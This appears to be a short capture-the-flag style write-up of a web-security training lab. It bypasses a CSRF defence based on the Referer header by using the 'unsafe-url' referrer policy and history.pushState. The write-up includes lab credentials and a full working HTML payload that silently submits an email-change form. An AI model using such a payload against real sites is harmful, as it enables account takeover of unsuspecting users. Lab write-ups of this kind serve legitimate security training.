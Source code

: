 This lab looks like the previous ones. We login using provided credentials `wiener:peter` and change the email and send this change request to repeater. 

After fiddling with the Referrer header, request will be accepted if it contains the URL. If i use URL from exploit server, request won't be accepted anymore.

Problem arises how to spoof referrer header using reflection in victims browser.

This is one of the ways how the labs can be done.

```html
<meta name="referrer" content="unsafe-url">
<script>
history.pushState("", "", "/?c=https://0ab4007d03078aecc0dab49e00b000a3.web-security-academy.net/my-account")
</script>
<form method="POST" action="https://0ab4007d03078aecc0dab49e00b000a3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>

<img src=x  onerror="document.forms[0].submit();"/>
```

Mind the Referrer using `unsafe-url` and `history.pushState`!

> All the labs look opticaly the same so i didn't make that many screenshots, so appologies for that!